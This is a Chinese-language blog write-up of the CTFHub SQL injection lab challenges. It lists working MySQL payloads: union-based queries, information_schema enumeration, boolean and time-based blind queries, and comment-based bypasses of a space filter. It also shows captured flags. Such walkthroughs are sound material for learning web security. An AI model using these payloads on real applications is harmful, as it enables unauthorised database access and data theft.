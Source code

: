 ```yaml
---
layout: post
title: CTFHub Web SQL 注入
subtitle: CTFHub Web SQL 注入
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. SQL 注入

### 1.1. 整数型注入

```sql
1 #显示
1 and 1=1 #显示
-1 union select 1,2,3 #不显示
-1 union select 1,2 #显示
```

![image](https://img.ghostliner.top/J7WJ6a.png)

获取数据库和表

![image](https://img.ghostliner.top/ZlUuSZ.png)

获取 `flag` 表字段

![image](https://img.ghostliner.top/kPrwbG.png)

获取 flag

![image](https://img.ghostliner.top/WWTK7O.png)

### 1.2. 字符型注入

```sql
# 字符型确认
?id=1' and 1=1--+
?id=1' and 1=-1--+
```

![image](https://img.ghostliner.top/KfiUPt.png)

![image](https://img.ghostliner.top/wXOxLO.png)

![image](https://img.ghostliner.top/Sb52Gr.png)

![image](https://img.ghostliner.top/pfzIk3.png)

### 1.3. 报错注入

![image](https://img.ghostliner.top/HVkijc.png)

![image](https://img.ghostliner.top/h3XHx6.png)

![image](https://img.ghostliner.top/vf7Vyk.png)

![image](https://img.ghostliner.top/ZJOcZI.png)

![image](https://img.ghostliner.top/hGF5SU.png)

### 1.4. 布尔盲注

经测试只有 ` query_error``query_success ` 两种

布尔盲注

```sql
1 and (select count(table_name) from information_schema.tables where table_schema=database())=2 -- 表数量2
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4 -- 表1长度4
1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4 -- 表2长度4
```

```sql
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=100 --
```

![image](https://img.ghostliner.top/dNv8OM.png)

表名：flag

```sql
1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1 -- 列数1
1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1))=4 -- 列长度4
```

```sql
1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1))=100 --
```

![image](https://img.ghostliner.top/CiqyVT.png)

列名：flag

```sql
1 and length((select flag from flag limit 0,1))=32 --
```

```sql
1 and ascii(substr((select flag from flag limit 0,1),1,1))=100 --
```

![image](https://img.ghostliner.top/utUqtQ.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{f127288b7d5f415118ee54ed}</font>`

### 1.5. 时间盲注

```sql
1 and sleep(3) -- 数字型注入
1 and if((select count(table_name)from information_schema.tables where table_schema=database())=2,sleep(3),0) -- 表数量2
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4,sleep(2),0) -- 表1长度4
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4,sleep(2),0) -- 表2长度4
1 and if(ascii(substr((select table_name from information_schema.tables where ta
ble_schema=database() limit 1,1),§1§,1))=§100§,sleep(2),0) -- 表1：news;表2：flag
1 and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1,sleep(2),0) -- flag表列数量1
1 and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='flag'))=4,sleep(2),0) -- 列1长度4
1 and if(ascii(substr((select column_name from information_schema.columns where
table_schema=database() and table_name='flag'),§1§,1))=§100§,sleep(2),0) -- 列1名flag
```

```sql
1 and if(ascii(substr((select flag from flag),§1§,1))=§100§,sleep(2),0)
```

![image](https://img.ghostliner.top/Sp6pim.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{77f14ac024782fa5cb10968e}</font>`

### 1.6. MySQL 结构

```sql
1 union select 1,2
1 union select 1,2,3
```

![image](https://img.ghostliner.top/b9MNEF.png)

确定查询两列

![image](https://img.ghostliner.top/AfgPRI.png)

![image](https://img.ghostliner.top/4UMEPQ.png)

![image](https://img.ghostliner.top/7t0OoK.png)

### 1.7. Cookie 注入

![image](https://img.ghostliner.top/2y1qfY.png)

![image](https://img.ghostliner.top/Ydxxa6.png)

![image](https://img.ghostliner.top/V80bbO.png)

![image](https://img.ghostliner.top/1fUhq6.png)

![image](https://img.ghostliner.top/9rkGla.png)

### 1.8. UA 注入

![image](https://img.ghostliner.top/G6zdMS.png)

![image](https://img.ghostliner.top/4JrTFb.png)

![image](https://img.ghostliner.top/5FVUmD.png)

![image](https://img.ghostliner.top/6X1uU5.png)

![image](https://img.ghostliner.top/MHjXKF.png)

### 1.9. Refer 注入

原请求无 refer，手动添加

![image](https://img.ghostliner.top/U7kr6W.png)

![image](https://img.ghostliner.top/VxZMBg.png)

![image](https://img.ghostliner.top/vTiliJ.png)

![image](https://img.ghostliner.top/CQheLF.png)

![image](https://img.ghostliner.top/a82fBc.png)

![image](https://img.ghostliner.top/pQM0bR.png)

### 1.10. 过滤空格

`-1 union select 1,2`

![image](https://img.ghostliner.top/leHG4y.png)

`-1/**/union/**/select/**/1,2`

![image](https://img.ghostliner.top/peQY4l.png)

```sql
-1/**/union/**/select/**/database(),group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()
```

![image](https://img.ghostliner.top/AdE9IA.png)

```sql
-1/**/union/**/select/**/database(),group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='iwnukmmbul'
```

![image](https://img.ghostliner.top/YFXY53.png)

```sql
-1/**/union/**/select/**/database(),group_concat(pvrmhtxmxm)from/**/iwnukmmbul
```

![image](https://img.ghostliner.top/pEbgPv.png)
